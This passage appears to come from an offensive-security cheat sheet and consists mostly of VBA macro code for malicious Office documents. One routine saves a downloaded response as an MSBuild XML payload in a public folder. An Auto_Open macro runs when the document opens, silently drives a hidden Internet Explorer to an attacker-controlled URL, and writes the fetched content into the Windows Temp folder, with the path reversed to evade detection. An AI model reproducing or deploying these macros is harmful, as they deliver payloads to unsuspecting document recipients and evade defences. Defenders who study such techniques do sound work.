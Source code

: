 			    myURL = WinHttpReq.responseBody
			    If WinHttpReq.Status = 200 Then
			        Set oStream = CreateObject("ADODB.Stream")
			        oStream.Open
			        oStream.Type = 1
			        oStream.Write WinHttpReq.responseBody
			        oStream.SaveToFile "C:\users\public\downloads\msbuild.xml", 2
			        oStream.Close
			    End If

			End Sub
			```
	* Internet Explorer
		* Code

			```
			Sub Auto_Open()
			    Dim strBaseURL As String 'URL to Visit
			    strBaseURL = "https://staging.attacker.com/msbuild.xml" 'Change Me
			    Set IE = CreateObject("InternetExplorer.Application") 'Opening Object
			    IE.Visible = False 'Don't let the user see it
			    IE.navigate strBaseURL 'Navigate to the website
			    On Error GoTo ErrorHandler
			    Do While IE.Busy: DoEvents: Loop
			    Do While IE.ReadyState <> 4: DoEvents: Loop
			    Set doc = IE.Document
			    'Set lnkOverRide = doc.getElementById("overridelink")
			    'If Not lnkOverRide Is Nothing Then
			        'lnkOverRide.Click
			        Do While IE.Busy: DoEvents: Loop
			        Do While IE.ReadyState <> 4: DoEvents: Loop
			        Set doc = IE.Document
			    'End If
			    Dim testString As String
			    testString = IE.Document.body.innerText
			    IE.Stop
			    IE.Quit
			    Dim fso As Object 'Write Output to File
			    Set fso = CreateObject("Scripting.FileSystemObject")
			    Dim oFile As Object
			    Dim randName As String
			    randName = StrReverse("\PMET\swodniW\:C") & Int((20 - 1 + 1) * Rnd + 1) & ".txt"
			    Set oFile = fso.CreateTextFile(randName)
			    oFile.Write (testString)
			    oFile.Close
			ErrorHandler:
			    Exit Sub
			End Sub
			```
* VBA Custom/Builtin Properties (Comments, etc)
	* Access document properties (MSWord)
		* author
